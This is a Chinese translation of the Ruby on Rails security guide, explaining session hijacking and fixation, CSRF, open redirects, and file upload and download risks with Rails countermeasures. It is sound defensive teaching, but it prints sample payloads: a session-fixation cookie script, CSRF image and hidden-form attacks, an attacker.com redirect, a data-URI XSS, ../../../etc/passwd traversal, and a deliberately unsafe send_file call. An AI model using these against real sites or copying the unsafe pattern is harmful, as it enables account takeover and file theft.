[[ruby-on-rails-security-guide]]
== Ruby on Rails 安全指南

// chinakr 翻译

[.chapter-abstract]
--
本文介绍 Web 应用常见的安全问题，以及如何在 Rails 中规避。

读完本文后，您将学到：

* 所有需要强调的安全对策；
* Rails 中会话的概念，应该在会话中保存什么内容，以及常见的攻击方式；
* 为什么访问网站也可能带来安全问题（跨站请求伪造）；
* 处理文件或提供管理界面时需要注意的问题；
* 如何管理用户：登录、退出，以及不同层次上的攻击方式；
* 最常见的注入攻击方式。
--

[[introduction]]
=== 简介

Web 应用框架的作用是帮助开发者创建 Web 应用。其中一些框架还能帮助我们提高 Web 应用的安全性。事实上，框架之间无所谓谁更安全，对许多框架来说，只要使用正确，我们都能开发出安全的应用。Ruby on Rails 提供了一些十分智能的辅助方法，例如，用于防止 SQL 注入的辅助方法，极大减少了这一安全风险。

一般来说，并不存在什么即插即用的安全机制。安全性取决于开发者如何使用框架，有时也取决于开发方式。安全性还取决于 Web 应用环境的各个层面，包括后端存储、Web 服务器和 Web 应用自身等（甚至包括其他 Web 应用）。

不过，据高德纳咨询公司（Gartner Group）估计，75% 的攻击发生在 Web 应用层面，报告称“在进行了安全审计的 300 个网站中，97% 存在被攻击的风险”。这是因为针对 Web 应用的攻击相对来说更容易实施，其工作原理和具体操作都比较简单，即使是非专业人士也能发起攻击。

针对 Web 应用的安全威胁包括账户劫持、绕过访问控制、读取或修改敏感数据，以及显示欺诈信息等。有时，攻击者还会安装木马程序或使用垃圾邮件群发软件，以便获取经济利益，或者通过篡改公司资源来损害品牌形象。为了防止这些攻击，最大限度地降低或消除攻击造成的影响，首先我们必须全面了解各种攻击方式，只有这样才能找出正确对策——这正是本文的主要目的。

为了开发安全的 Web 应用，我们必须从各个层面紧跟安全形势，做到知己知彼。为此，我们可以订阅安全相关的邮件列表，阅读相关博客，同时养成及时更新并定期进行安全检查的习惯（请参阅 <<security-additional-resources>>）。这些工作都是手动完成的，只有这样我们才能发现潜在的安全隐患。

[[sessions]]
=== 会话

从会话入手来了解安全问题是一个很好的切入点，因为会话对于特定攻击十分脆弱。

[[what-are-sessions]]
==== 会话是什么

NOTE: HTTP 是无状态协议，会话使其有状态。

大多数应用需要跟踪特定用户的某些状态，例如购物车里的商品、当前登录用户的 ID 等。如果没有会话，就需要为每一次请求标识用户甚至进行身份验证。当新用户访问应用时，Rails 会自动新建会话，如果用户曾经访问过应用，就会加载已有会话。

会话通常由值的哈希和会话 ID（通常为 32 个字符的字符串）组成，其中会话 ID 用于标识哈希值。发送到客户端浏览器的每个 cookie 都包含会话 ID，另一方面，客户端浏览器发送到服务器的每个请求也包含会话 ID。在 Rails 中，我们可以使用 `session` 方法保存和取回值：

[source,ruby]
----
session[:user_id] = @current_user.id
User.find(session[:user_id])
----

[[session-id]]
==== 会话 ID

NOTE: 会话 ID 是随机的 32 个十六进制字符。

会话 ID 由 `SecureRandom.hex` 生成，通过所在平台中生成加密安全随机数的方法（例如 OpenSSL、/dev/urandom 或 Win32）生成。目前还无法暴力破解 Rails 的会话 ID。

[[session-hijacking]]
==== 会话劫持

WARNING: 通过窃取用户的会话 ID，攻击者能够以受害者的身份使用 Web 应用。

很多 Web 应用都有身份验证系统：用户提供用户名和密码，Web 应用在验证后把对应的用户 ID 储存到会话散列中。之后，会话就可以合法使用了。对于每个请求，应用都会通过识别会话中储存的用户 ID 来加载用户，从而避免了重新进行身份验证。cookie 中的会话 ID 用于标识会话。

因此，cookie 提供了 Web 应用的临时身份验证。只要得到了他人的 cookie，任何人都能以该用户的身份使用 Web 应用，这可能导致严重的后果。下面介绍几种劫持会话的方式及其对策：

* 在不安全的网络中嗅探 cookie。无线局域网就是一个例子。在未加密的无线局域网中，监听所有已连接客户端的流量极其容易。因此，Web 应用开发者应该通过 SSL 提供安全连接。在 Rails 3.1 和更高版本中，可以在应用配置文件中设置强制使用 SSL 连接：
+
[source,ruby]
----
config.force_ssl = true
----

* 大多数人在使用公共终端后不会清除 cookie。因此，如果最后一个用户没有退出 Web 应用，后续用户就能以该用户的身份继续使用。因此，Web 应用一定要提供“退出”按钮，并且要尽可能显眼。

* 很多跨站脚本（XSS）攻击的目标是获取用户 cookie。更多介绍请参阅 <<cross-site-scripting-xss>>。

* 有的攻击者不窃取 cookie，而是篡改用户 cookie 中的会话 ID。这种攻击方式被称为固定会话攻击，后文会详细介绍。

大多数攻击者的主要目标是赚钱。根据赛门铁克《互联网安全威胁报告》，被窃取的银行登录账户的黑市价格从 10 到 1000 美元不等（取决于账户余额），信用卡卡号为 0.40 到 20 美元，在线拍卖网站的账户为 1 到 8 美元，电子邮件账户密码为 4 到 30 美元。

[[session-guidelines]]
==== 会话安全指南

下面是一些关于会话安全的一般性指南。

* 不要在会话中储存大型对象，而应该把它们储存在数据库中，并将其 ID 保存在会话中。这么做可以避免同步问题，并且不会导致会话存储空间耗尽（会话存储空间的大小取决于其类型，详见后文）。如果不这么做，当修改了对象结构时，用户 cookie 中保存的仍然是对象的旧版本。通过在服务器端储存会话，我们可以轻而易举地清除会话，而在客户端储存会话，要想清除会话就很麻烦了。

* 关键数据不应该储存在会话中。如果用户清除了 cookie 或关闭了浏览器，这些关键数据就会丢失。而且，在客户端储存会话，用户还能读取关键数据。

[[session-storage]]
==== 会话存储

NOTE: Rails 提供了几种会话散列的存储机制。其中最重要的是 `ActionDispatch::Session::CookieStore`。

Rails 2 引入了一种新的默认会话存储机制——CookieStore。CookieStore 把会话散列直接储存在客户端的 cookie 中。无需会话 ID，服务器就可以从 cookie 中取回会话散列。这么做可以显著提高应用的运行速度，但也存在争议，因为这种存储机制具有下列安全隐患：

* cookie 的大小被严格限制为 4 KB。这个限制本身没问题，因为如前文所述，本来就不应该在会话中储存大量数据。在会话中储存当前用户的数据库 ID 一般没问题。

* 客户端可以看到储存在会话中的所有内容，因为数据是以明文形式储存的（实际上是 Base64 编码，因此没有加密）。因此，我们不应该在会话中储存隐私数据。为了防止会话散列被篡改，应该根据服务器端密令（`secrets.secret_token`）计算会话的摘要（digest），然后把这个摘要添加到 cookie 的末尾。

不过，从 Rails 4 开始，默认存储机制是 EncryptedCookieStore。EncryptedCookieStore 会先对会话进行加密，再储存到 cookie 中。这么做可以防止用户访问和篡改 cookie 的内容。因此，会话也成为储存数据的更安全的地方。加密时需要使用 `config/secrets.yml` 文件中储存的服务器端密钥 `secrets.secret_key_base`。

这意味着 EncryptedCookieStore 存储机制的安全性由密钥（以及摘要算法，出于兼容性考虑默认为 SHA1 算法）决定。因此，密钥不能随意取值，例如从字典中找一个单词，或少于 30 个字符，而应该使用 `rails secret` 命令生成。

`secrets.secret_key_base` 用于指定密钥，在应用中会话使用这个密钥来验证已知密钥，以防被篡改。在创建应用时，`config/secrets.yml` 文件中储存的 `secrets.secret_key_base` 是一个随机密钥，例如：

[source,yml]
----
development:
  secret_key_base: a75d...

test:
  secret_key_base: 492f...

production:
  secret_key_base: <%= ENV["SECRET_KEY_BASE"] %>
----

Rails 老版本中的 CookieStore 使用的是 `secret_token`，而不是 EncryptedCookieStore 所使用的 `secret_key_base`。更多介绍请参阅升级文档。

如果应用的密钥泄露了（例如应用开放了源代码），强烈建议更换密钥。

[[replay-attacks-for-cookiestore-sessions]]
==== 对 CookieStore 会话的重放攻击

NOTE: 重放攻击（replay attack）是使用 CookieStore 时必须注意的另一种攻击方式。

重放攻击的工作原理如下：

* 用户获得的信用额度保存在会话中（信用额度实际上不应该保存在会话中，这里只是出于演示目的才这样做）；
* 用户使用部分信用额度购买商品；
* 减少后的信用额度仍然保存在会话中；
* 用户先前复制了第一步中的 cookie，并用这个 cookie 替换浏览器中的当前 cookie；
* 用户重新获得了消费前的信用额度。

在会话中包含随机数可以防止重放攻击。每个随机数验证一次后就会失效，服务器必须跟踪所有有效的随机数。当有多个应用服务器时，情况会变得更复杂，因为我们不能把随机数储存在数据库中，否则就违背了使用 CookieStore 的初衷（避免访问数据库）。

因此，防止重放攻击的最佳方案，不是把这类敏感数据储存在会话中，而是把它们储存在数据库中。回到上面的例子，我们可以把信用额度储存在数据库中，而把当前用户的 ID 储存在会话中。

[[session-fixation]]
==== 会话固定攻击

NOTE: 除了窃取用户的会话 ID 之外，攻击者还可以直接使用已知的会话 ID。这种攻击方式被称为会话固定（session fixation）攻击。

image::session_fixation.png[]

会话固定攻击的关键是强制用户的浏览器使用攻击者已知的会话 ID，这样攻击者就无需窃取会话 ID。会话固定攻击的工作原理如下：

* 攻击者创建一个有效的会话 ID：打开 Web 应用的登录页面，从响应中获取 cookie 中的会话 ID（参见上图中的第 1 和第 2 步）。
* 攻击者定期访问 Web 应用，以避免会话过期。
* 攻击者强制用户的浏览器使用这个会话 ID（参见上图中的第 3 步）。由于无法修改另一个域名的 cookie（基于同源原则的限制），攻击者必须在目标 Web 应用的域名上运行 JavaScript，也就是通过 XSS 把 JavaScript 注入目标 Web 应用来完成攻击。例如：`<script>document.cookie="_session_id=16d5b78abb28e3d6206b60f22a03c8d9";</script>`。关于 XSS 和注入的更多介绍见后文。
* 攻击者诱使用户访问包含恶意 JavaScript 代码的页面，这样用户的浏览器中的会话 ID 就会被篡改为攻击者已知的会话 ID。
* 由于这个被篡改的会话还未使用过，Web 应用会进行身份验证。
* 此后，用户和攻击者将共用同一个会话来访问 Web 应用。攻击者篡改后的会话成为了有效会话，用户面对攻击却浑然不知。

[[session-fixation-countermeasures]]
==== 会话固定攻击的对策

TIP: 一行代码就能保护我们免受会话固定攻击。

面对会话固定攻击，最有效的对策是在登录成功后重新设置会话 ID，并使原有会话 ID 失效，这样攻击者持有的会话 ID 也就失效了。这也是防止会话劫持的有效对策。在 Rails 中重新设置会话 ID 的方式如下：

[source,ruby]
----
reset_session
----

如果使用流行的 link:https://rubygems.org/gems/devise[Devise] gem 管理用户，Devise 会在用户登录和退出时自动使原有会话过期。如果打算手动完成用户管理，请记住在登录操作后（新会话创建后）使原有会话过期。会话过期后其中的值都会被删除，因此我们需要把有用的值转移到新会话中。

另一个对策是在会话中保存用户相关的属性，对于每次请求都验证这些属性，如果信息不匹配就拒绝访问。这些属性包括 IP 地址、用户代理（Web 浏览器名称），其中用户代理的用户相关性要弱一些。在保存 IP 地址时，必须注意，有些网络服务提供商（ISP）或大型组织，会把用户置于代理服务器之后。在会话的生命周期中，这些代理服务器有可能发生变化，从而导致用户无法正常使用应用，或出现权限问题。

[[session-expiry]]
==== 会话过期

NOTE: 永不过期的会话增加了跨站请求伪造（CSRF）、会话劫持和会话固定攻击的风险。

cookie 的过期时间可以通过会话 ID 设置。然而，客户端能够修改储存在 Web 浏览器中的 cookie，因此在服务器上使会话过期更安全。下面的例子演示如何使储存在数据库中的会话过期。通过调用 `Session.sweep("20 minutes")`，可以使闲置超过 20 分钟的会话过期。

[source,ruby]
----
class Session < ApplicationRecord
  def self.sweep(time = 1.hour)
    if time.is_a?(String)
      time = time.split.inject { |count, unit| count.to_i.send(unit) }
    end

    delete_all "updated_at < '#{time.ago.to_s(:db)}'"
  end
end
----

<<session-fixation>>介绍了维护会话的问题。攻击者每五分钟维护一次会话，就可以使会话永远保持活动，不至过期。针对这个问题的一个简单解决方案是在会话数据表中添加 `created_at` 字段，这样就可以找出创建了很长时间的会话并删除它们。可以用下面这行代码代替上面例子中的对应代码：

[source,ruby]
----
delete_all "updated_at < '#{time.ago.to_s(:db)}' OR
  created_at < '#{2.days.ago.to_s(:db)}'"
----

[[cross-site-request-forgery-csrf]]
=== 跨站请求伪造（CSRF）

跨站请求伪造的工作原理是，通过在页面中包含恶意代码或链接，访问已验证用户才能访问的 Web 应用。如果该 Web 应用的会话未超时，攻击者就能执行未经授权的操作。

image::csrf.png[]

在 <<sessions>>中，我们了解到大多数 Rails 应用都使用基于 cookie 的会话。它们或者把会话 ID 储存在 cookie 中并在服务器端储存会话散列，或者把整个会话散列储存在客户端。不管是哪种情况，只要浏览器能够找到某个域名对应的 cookie，就会自动在发送请求时包含该 cookie。有争议的是，即便请求来源于另一个域名上的网站，浏览器在发送请求时也会包含客户端的 cookie。让我们来看个例子：

* Bob 在访问留言板时浏览了一篇黑客发布的帖子，其中有一个精心设计的 HTML 图像元素。这个元素实际指向的是 Bob 的项目管理应用中的某个操作，而不是真正的图像文件：`<img src="http://www.webapp.com/project/1/destroy">`。
* Bob 在 pass:[www.webapp.com] 上的会话仍然是活动的，因为几分钟前他访问这个应用后没有退出。
* 当 Bob 浏览这篇帖子时，浏览器发现了这个图像标签，于是尝试从 pass:[www.webapp.com] 中加载图像。如前文所述，浏览器在发送请求时包含 cookie，其中就有有效的会话 ID。
* pass:[www.webapp.com] 上的 Web 应用会验证对应会话散列中的用户信息，并删除 ID 为 1 的项目，然后返回结果页面。由于返回的并非浏览器所期待的结果，图像无法显示。
* Bob 当时并未发觉受到了攻击，但几天后，他发现 ID 为 1 的项目不见了。

有一点需要特别注意，像上面这样精心设计的图像或链接，并不一定要出现在 Web 应用所在的域名上，而是可以出现在任何地方，例如论坛、博客帖子，甚至电子邮件中。

CSRF 在 CVE（Common Vulnerabilities and Exposures，公共漏洞披露）中很少出现，在 2006 年不到 0.1%，但却是个可怕的隐形杀手。对于很多安全保障工作来说，CSRF 是一个严重的安全问题。

[[csrf-countermeasures]]
==== CSRF 对策

NOTE: 首先，根据 W3C 的要求，应该适当地使用 `GET` 和 `POST` HTTP 方法。其次，在非 GET 请求中使用安全令牌（security token）可以防止应用受到 CSRF 攻击。

HTTP 协议提供了两种主要的基本请求类型，`GET` 和 `POST`（还有其他请求类型，但大多数浏览器不支持）。万维网联盟（W3C）提供了检查表，以帮助开发者在 `GET` 和 `POST` 这两个 HTTP 方法之间做出正确选择：

使用 `GET` HTTP 方法的情形：

* 当交互更像是在询问时，例如查询、读取、查找等安全操作。

使用 `POST` HTTP 方法的情形：

* 当交互更像是在执行命令时；
* 当交互改变了资源的状态并且这种变化能够被用户察觉时，例如订阅某项服务；
* 当用户需要对交互结果负责时。

如果应用是 REST 式的，还可以使用其他 HTTP 方法，例如 `PATCH`、`PUT` 或 `DELETE`。然而现今的大多数浏览器都不支持这些 HTTP 方法，只有 `GET` 和 `POST` 得到了普遍支持。Rails 通过隐藏的 `_method` 字段来解决这个问题。

`POST` 请求也可以自动发送。在下面的例子中，链接 pass:[www.harmless.com] 在浏览器状态栏中显示为目标地址，实际上却动态新建了一个发送 POST 请求的表单：

[source,html]
----
<a href="http://www.harmless.com/" onclick="
  var f = document.createElement('form');
  f.style.display = 'none';
  this.parentNode.appendChild(f);
  f.method = 'POST';
  f.action = 'http://www.example.com/account/destroy';
  f.submit();
  return false;">To the harmless survey</a>
----

攻击者还可以把代码放在图片的 `onmouseover` 事件句柄中：

[source,html]
----
<img src="http://www.harmless.com/img" width="400" height="400" onmouseover="..." />
----

CSRF 还有很多可能的攻击方式，例如使用 `<script>` 标签向返回 JSONP 或 JavaScript 的 URL 地址发起跨站请求。对跨站请求的响应，返回的如果是攻击者可以设法运行的可执行代码，就有可能导致敏感数据泄露。为了避免发生这种情况，必须禁用跨站 `<script>` 标签。不过 Ajax 请求是遵循同源原则的（只有在同一个网站中才能初始化 `XmlHttpRequest`），因此在响应 Ajax 请求时返回 JavaScript 是安全的，不必担心跨站请求问题。

注意：我们无法区分 `<script>` 标签的来源，无法知道这个标签是自己网站上的，还是其他恶意网站上的，因此我们必须全面禁止 `<script>` 标签，哪怕这个标签实际上来源于自己网站上的安全的同源脚本。在这种情况下，对于返回 JavaScript 的控制器动作，显式跳过 CSRF 保护，就意味着允许使用 `<scipt>` 标签。

为了防止其他各种伪造请求，我们引入了安全令牌，这个安全令牌只有我们自己的网站知道，其他网站不知道。我们把安全令牌包含在请求中，并在服务器上进行验证。安全令牌在应用的控制器中使用下面这行代码设置，这也是新建 Rails 应用的默认值：

[source,ruby]
----
protect_from_forgery with: :exception
----

这行代码会在 Rails 生成的所有表单和 Ajax 请求中包含安全令牌。如果安全令牌验证失败，就会抛出异常。

NOTE: 默认情况下，Rails 自带的https://github.com/rails/rails-ujs[非侵入式脚本适配器]会在每个非 GET Ajax 调用中添加名为 `X-CSRF-Token` 的首部，其值为安全令牌。如果没有这个首部，Rails 不会接受非 GET Ajax 请求。使用其他库调用 Ajax 时，同样要在默认首部中添加 `X-CSRF-Token`。要想获取令牌，请查看应用视图中由 `<%= csrf_meta_tags %>` 这行代码生成的 `<meta name='csrf-token' content='THE-TOKEN'>` 标签。

通常我们会使用持久化 cookie 来储存用户信息，例如使用 `cookies.permanent`。在这种情况下，cookie 不会被清除，CSRF 保护也无法自动生效。如果使用其他 cookie 存储器而不是会话来保存用户信息，我们就必须手动解决这个问题：

[source,ruby]
----
rescue_from ActionController::InvalidAuthenticityToken do |exception|
  sign_out_user # 删除用户 cookie 的示例方法
end
----

这段代码可以放在 `ApplicationController` 中。对于非 GET 请求，如果 CSRF 令牌不存在或不正确，就会执行这段代码。

注意，跨站脚本（XSS）漏洞能够绕过所有 CSRF 保护措施。攻击者通过 XSS 可以访问页面中的所有元素，也就是说攻击者可以读取表单中的 CSRF 安全令牌，也可以直接提交表单。更多介绍请参阅 <<cross-site-scripting-xss>>。

[[redirection-and-files]]
=== 重定向和文件

另一类安全漏洞由 Web 应用中的重定向和文件引起。

[[redirection]]
==== 重定向

WARNING: Web 应用中的重定向是一个被低估的黑客工具：攻击者不仅能够把用户的访问跳转到恶意网站，还能够发起独立攻击。

只要允许用户指定 URL 重定向地址（或其中的一部分），就有可能造成风险。最常见的攻击方式是，把用户重定向到假冒的 Web 应用，这个假冒的 Web 应用看起来和真的一模一样。这就是所谓的钓鱼攻击。攻击者发动钓鱼攻击时，或者给用户发送包含恶意链接的邮件，或者通过 XSS 在 Web 应用中注入恶意链接，或者把恶意链接放入其他网站。这些恶意链接一般不会引起用户的怀疑，因为它们以正常的网站 URL 开头，而把恶意网站的 URL 隐藏在重定向参数中，例如 pass:[http://www.example.com/site/redirect?to=www.attacker.com]。让我们来看一个例子：

[source,ruby]
----
def legacy
  redirect_to(params.update(action:'main'))
end
----

如果用户访问 `legacy` 动作，就会被重定向到 `main` 动作，同时传递给 `legacy` 动作的 URL 参数会被保留并传递给 `main` 动作。然而，攻击者通过在 URL 地址中包含 `host` 参数就可以发动攻击：

----
http://www.example.com/site/legacy?param1=xy&param2=23&host=www.attacker.com
----

如果 `host` 参数出现在 URL 地址末尾，将很难被注意到，从而会把用户重定向到 pass:[www.attacker.com] 这个恶意网站。一个简单的对策是，在 `legacy` 动作中只保留所期望的参数（使用白名单，而不是去删除不想要的参数）。对于用户指定的重定向 URL 地址，应该通过白名单或正则表达式进行检查。

[[self-contained-xss]]
===== 独立的 XSS

在 Firefox 和 Opera 浏览器中，通过使用 data 协议，还能发起另一种重定向和独立 XSS 攻击。data 协议允许把内容直接显示在浏览器中，支持的类型包括 HTML、JavaScript 和图像，例如：

----
data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K
----

这是一段使用 Base64 编码的 JavaScript 代码，运行后会显示一个消息框。通过这种方式，攻击者可以使用恶意代码把用户重定向到恶意网站。为了防止这种攻击，我们的对策是禁止用户指定 URL 重定向地址。

[[file-uploads]]
==== 文件上传

NOTE: 请确保文件上传时不会覆盖重要文件，同时对于媒体文件应该采用异步上传方式。

很多 Web 应用都允许用户上传文件。由于文件名通常由用户指定（或部分指定），必须对文件名进行过滤，以防止攻击者通过指定恶意文件名覆盖服务器上的文件。如果我们把上传的文件储存在 `/var/www/uploads` 文件夹中，而用户输入了类似 `../../../etc/passwd` 的文件名，在没有对文件名进行过滤的情况下，`passwd` 这个重要文件就有可能被覆盖。当然，只有在 Ruby 解析器具有足够权限时文件才会被覆盖，这也是不应该使用 Unix 特权用户运行 Web 服务器、数据库服务器和其他应用的原因之一。

在过滤用户输入的文件名时，不要去尝试删除文件名的恶意部分。我们可以设想这样一种情况，Web 应用把文件名中所有的 `../` 都删除了，但攻击者使用的是 `pass:[....//]`，于是过滤后的文件名中仍然包含 `../`。最佳策略是使用白名单，只允许在文件名中使用白名单中的字符。黑名单的做法是尝试删除禁止使用的字符，白名单的做法恰恰相反。对于无效的文件名，可以直接拒绝（或者把禁止使用的字符都替换掉），但不要尝试删除禁止使用的字符。下面这个文件名净化程序摘自 link:https://github.com/technoweenie/attachment_fu/tree/master[attachment_fu] 插件：

[source,ruby]
----
def sanitize_filename(filename)
  filename.strip.tap do |name|
    # NOTE: File.basename doesn't work right with Windows paths on Unix
    # get only the filename, not the whole path
    name.sub! /\A.*(\\|\/)/, ''
    # Finally, replace all non alphanumeric, underscore
    # or periods with underscore
    name.gsub! /[^\w\.\-]/, '_'
  end
end
----

通过同步方式上传文件（`attachment_fu` 插件也能用于上传图像）的一个明显缺点是，存在受到拒绝服务攻击（denial-of-service，简称 DoS）的风险。攻击者可以通过很多计算机同时上传图像，这将导致服务器负载增加，并最终导致应用崩溃或服务器宕机。

最佳解决方案是，对于媒体文件采用异步上传方式：保存媒体文件，并通过数据库调度程序处理请求。由另一个进程在后台完成文件上传。

[[executable-code-in-file-uploads]]
==== 上传文件中的可执行代码

WARNING: 如果把上传的文件储存在某些特定的文件夹中，文件中的源代码就有可能被执行。因此，如果 Rails 应用的 `/public` 文件夹被设置为 Apache 的主目录，请不要在这个文件夹中储存上传的文件。

流行的 Apache Web 服务器的配置文件中有一个名为 `DocumentRoot` 的选项，用于指定网站的主目录。主目录及其子文件夹中的所有内容都由 Web 服务器直接处理。如果其中包含一些具有特定扩展名的文件，就能够通过 HTTP 请求执行这些文件中的代码（可能还需要设置一些选项），例如 PHP 和 CGI 文件。假设攻击者上传了 `file.cgi` 文件，其中包含可执行代码，那么之后有人下载这个文件时，里面的代码就会在服务器上执行。

如果 Apache 的 `DocumentRoot` 选项指向 Rails 的 `/public` 文件夹，请不要在其中储存上传的文件，至少也应该储存在子文件夹中。

[[file-downloads]]
==== 文件下载

NOTE: 请确保用户不能随意下载文件。

正如在上传文件时必须过滤文件名，在下载文件时也必须进行过滤。`send_file()` 方法用于把服务器上的文件发送到客户端。如果传递给 `send_file()` 方法的文件名参数是由用户输入的，却没有进行过滤，用户就能够下载服务器上的任何文件：

[source,ruby]
----
send_file('/var/www/uploads/' + params[:filename])
----

可以看到，只要指定 `../../../etc/passwd` 这样的文件名，用户就可以下载服务器登录信息。对此，一个简单的解决方案是，检查所请求的文件是否在规定的文件夹中：

[source,ruby]
----
basename = File.expand_path(File.join(File.dirname(__FILE__), '../../files'))
filename = File.expand_path(File.join(basename, @file.public_filename))
raise if basename !=
     File.expand_path(File.join(File.dirname(filename), '../../../'))
send_file filename, disposition: 'inline'
----

另一个（附加的）解决方案是在数据库中储存文件名，并以数据库中的记录 ID 作为文件名，把文件保存到磁盘。这样做还能有效防止上传的文件中的代码被执行。`attachment_fu` 插件的工作原理类似。

[[intranet-and-admin-security]]
=== 局域网和管理界面的安全

由于具有访问特权，局域网和管理界面成为了常见的攻击目标。因此理应为它们采取多种安全防护措施，然而实际情况却不理想。

2007 年，第一个在局域网中窃取信息的专用木马出现了，它的名字叫“员工怪兽”（Monster for employers），用于攻击在线招聘网站 pass:[Monster.com]。专用木马非常少见，迄今为止造成的安全风险也相当低，但这种攻击方式毕竟是存在的，说明客户端的安全问题不容忽视。然而，对局域网和管理界面而言，最大的安全威胁来自 XSS 和 CSRF。

**XSS**

如果在应用中显示了来自外网的恶意内容，应用就有可能受到 XSS 攻击。例如用户名、用户评论、垃圾信息报告、订单地址等等，都有可能受到 XSS攻击。

在局域网和管理界面中，只要有一个地方没有对输入进行过滤，整个应用就有可能受到 XSS 攻击。可能发生的攻击包括：窃取具有特权的管理员的 cookie、注入 iframe 以窃取管理员密码，以及通过浏览器漏洞安装恶意软件以控制管理员的计算机。

关于 XSS 攻击的对策，请参阅 <<injection>>。

**CSRF**

跨站请求伪造（CSRF），也称为跨站引用伪造（XSRF），是一种破坏性很强的攻击方法，它允许攻击者完成管理员或局域网用户可以完成的一切操作。前文我们已经介绍过 CSRF 的工作原理，下面是攻击者针对局域网和管理界面发动 CSRF 攻击的几个例子。

一个真实的案例是link:http://www.h-online.com/security/news/item/Symantec-reports-first-active-attack-on-a-DSL-router-735883.html[通过 CSRF 攻击重新设置路由器]。攻击者向墨西哥用户发送包含 CSRF 代码的恶意电子邮件。邮件声称用户收到了一张电子贺卡，其中包含一个能够发起 HTTP GET 请求的图像标签，以便重新设置用户的路由器（针对一款在墨西哥很常见的路由器）。攻击改变了路由器的 DNS 设置，当用户访问墨西哥境内银行的网站时，就会被带到攻击者的网站。通过受攻击的路由器访问银行网站的所有用户，都会被带到攻击者的假冒网站，最终导致用户的网银账号失窍。

另一个例子是修改 Google Adsense 账户的电子邮件和密码。一旦受害者登录 Google Adsense，打算对自己投放的 Google 广告进行管理，攻击者就能够趁机修改受害者的登录信息。

